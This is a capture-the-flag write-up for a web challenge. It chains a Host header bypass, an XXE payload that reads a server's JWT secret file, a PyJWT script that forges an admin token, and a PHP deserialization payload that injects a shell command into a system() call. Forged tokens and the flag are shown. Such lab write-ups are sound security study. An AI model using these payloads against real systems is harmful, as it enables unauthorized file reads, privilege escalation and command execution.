 # PimpMyVariant (WEB)
### Solves : 77
## Introduction

So we fall on a page with covid variants list and apparently there's nothing in the page source code.

![image](https://user-images.githubusercontent.com/88440644/151672386-7af1f7b6-7bba-4889-aaaa-f0c2fed5faf8.png)

First thing we do is check robots.txt page. And we see that there's some endpoints :

![image](https://user-images.githubusercontent.com/88440644/151672246-e2ce96bf-05e0-467b-841b-7231a01b630b.png)

We saw the flag.txt and todo.txt but it's a rabbit hole :

![](https://cdn.discordapp.com/attachments/503921688657002516/937036562334617650/unknown.png)
![](https://cdn.discordapp.com/attachments/503921688657002516/937037397139546132/unknown.png)

So we want to check now the last three pages :
- /readme
- /new
- /log

But if we try to access them we get the following error :

![](https://cdn.discordapp.com/attachments/503921688657002516/937040834656895056/unknown.png)

## Hostname bypass

This step was pretty simple, we could bypass that by setting the **Host** header to `127.0.0.1`. I personally used ModHeader extension.

![image](https://user-images.githubusercontent.com/88440644/151671747-69b78037-d43f-4798-a51c-9c475e1f0299.png)

Now we get the location of the JWT secret, but we need to read this so let's find out how to do this.

## XXE Injection

By looking on the **/new** endpoint we see that we can submit a variant name that'll be add to the variants list :

![image](https://user-images.githubusercontent.com/88440644/151672156-a68f01e1-4d97-42d8-afae-2327666c2120.png)
![image](https://user-images.githubusercontent.com/88440644/151672171-a2df7ce3-646d-4b12-95a4-de99f455723d.png)

And if we look at the request made when we add a variant name we see that we're dealing with an XML request :

![image](https://user-images.githubusercontent.com/88440644/151672741-c0e427ab-21eb-42a7-a3a0-ee2777805e4d.png)

When a variant is added, a JWT token is generated that contains this variant name :

![image](https://user-images.githubusercontent.com/88440644/151673568-7b3d49bc-7354-4fb9-9a6c-44d1a26e5f45.png)

But now we need to exploit this XML request, and for that we want to exfiltrate the JWT secret file to be able to sign our own JWT token. To do this we'll use this XML payload that will put in the variant name the output of the file `jwt.secret.txt`:

```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///www/jwt.secret.txt" >]>
<root>
  <name>
    &xxe;
  </name>
</root>
```

![image](https://user-images.githubusercontent.com/88440644/151672641-56a35f03-bf13-4737-9f6a-fbf32f1bce2f.png)

Now we can see that the JWT secret is in the variants list and in the JWT token :

  - 54b163783c46881f1fe7ee05f90334aa

![image](https://user-images.githubusercontent.com/88440644/151675675-e27843d0-4a57-46bd-8b55-ae8babbdbdd7.png)

## PHP Object Injection

So we can sign a token, and if you saw there was a serialized object in the JWT token with the parameter **isAdmin** set to 0 (false). Our goal is to modify this value to 1 (true) to be able to access **/log** endpoint because it's only accessible to *admin*. So let's forge a JWT token with **isAdmin** sets to **0** thanks to the python PyJWT library :

```python
import jwt
token = jwt.encode({
  "variants": [
    "Alpha"
  ],
  "settings": "a:1:{i:0;O:4:\"User\":3:{s:4:\"name\";s:4:\"Anon\";s:7:\"isAdmin\";b:1;s:2:\"id\";s:40:\"42357db6af31f5c6f4ce007059799a9a330f7c9f\";}}",
  "exp": 1643480307
}, "54b163783c46881f1fe7ee05f90334aa", algorithm="HS256")
print(token)
```
Output : 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ2YXJpYW50cyI6WyJBbHBoYSJdLCJzZXR0aW5ncyI6ImE6MTp7aTowO086NDpcIlVzZXJcIjozOntzOjQ6XCJuYW1lXCI7czo0OlwiQW5vblwiO3M6NzpcImlzQWRtaW5cIjtiOjE7czoyOlwiaWRcIjtzOjQwOlwiNDIzNTdkYjZhZjMxZjVjNmY0Y2UwMDcwNTk3OTlhOWEzMzBmN2M5ZlwiO319IiwiZXhwIjoxNjQzNDgwMzA3fQ.3-nXabEL-8rS0LM-AlOAevCIx5UshlEeVeaFtyTuUTQ
```

Now we can try to access to **/log** and we get a logging error:

![image](https://user-images.githubusercontent.com/88440644/151676112-f87bee76-c0a1-4e25-8ec2-712bf9daa7e7.png)

So the error is the following :

```php
[2021-12-25 02:12:01] Fatal error: Uncaught Error: Bad system command call from UpdateLogViewer::read() from global scope in /www/log.php:36
Stack trace:
#0 {main}
  thrown in /www/log.php on line 37
#0 {UpdateLogViewer::read}
  thrown in /www/UpdateLogViewer.inc on line 26
```

We can see another interesting file which is `/www/UpdateLogViewer.inc` and we can download it directly from the website at http://pimpmyvariant.insomnihack.ch/UpdateLogViewer.inc :

```php
<?php

class UpdateLogViewer
{
	public string $packgeName;
	public string $logCmdReader;
	private static ?UpdateLogViewer $singleton = null;
	
	private function __construct(string $packgeName)
	{
		$this->packgeName = $packgeName;
		$this->logCmdReader = 'cat';
	}
	
	public static function instance() : UpdateLogViewer
	{
		if( !isset(self::$singleton) || self::$singleton === null ){
			$c = __CLASS__;
			self::$singleton = new $c("$c");
		}
		return self::$singleton;
	}
	
	public static function read():string
	{
		return system(self::logFile());
	}
	
	public static function logFile():string
	{
		return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
	}
	
    public function __wakeup()// serialize
    {
    	self::$singleton = $this; 
    }
};
```

So now just by seeing the `system()` call in `read()` function we can guess that it's a PHP deserialization vulnerability, by default the code will `cat` the content of `packgeName` log file but these are values we can control in the deserialization process.

So to achieve our exploit we're going to append our desire object into the array deserialized.

```php
public static function logFile():string
{
  return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
}
```
The returned value is executed by `system()` so we can imagine the command executed behind to display the content of the current directory :

```php
system('cat *; /var/log/UpdateLogViewer_x.log');
```

So we craft our serialized object like that :

```php
a:2:{i:0;O:4:"User":3:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:1;s:2:"id";s:40:"bec9b80a3ed0ee3f0463d68bdef1128de828acb5";}i:1;O:15:"UpdateLogViewer":2:{s:10:"packgeName";s:1:"x";s:12:"logCmdReader";s:6:"cat *;";}}
```

We forge another token with that data and we get a new token :
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ2YXJpYW50cyI6WyJBbHBoYSJdLCJzZXR0aW5ncyI6ImE6Mjp7aTowO086NDpcIlVzZXJcIjozOntzOjQ6XCJuYW1lXCI7czo0OlwiQW5vblwiO3M6NzpcImlzQWRtaW5cIjtiOjE7czoyOlwiaWRcIjtzOjQwOlwiYmVjOWI4MGEzZWQwZWUzZjA0NjNkNjhiZGVmMTEyOGRlODI4YWNiNVwiO31pOjE7TzoxNTpcIlVwZGF0ZUxvZ1ZpZXdlclwiOjI6e3M6MTA6XCJwYWNrZ2VOYW1lXCI7czoxOlwieFwiO3M6MTI6XCJsb2dDbWRSZWFkZXJcIjtzOjY6XCJjYXQgKjtcIjt9fSIsImV4cCI6MTY0MzQ4MDMwN30.aDkxHvE53Wmy2BawAGWWrg868TMK1Sr_73ZL6cLbYLM
```

Now if we refresh the **/log** page we can get the flag that is displayed : `INS{P!mpmYV4rianThat's1flag}`

*Hope you enjoy, have a very good day !*
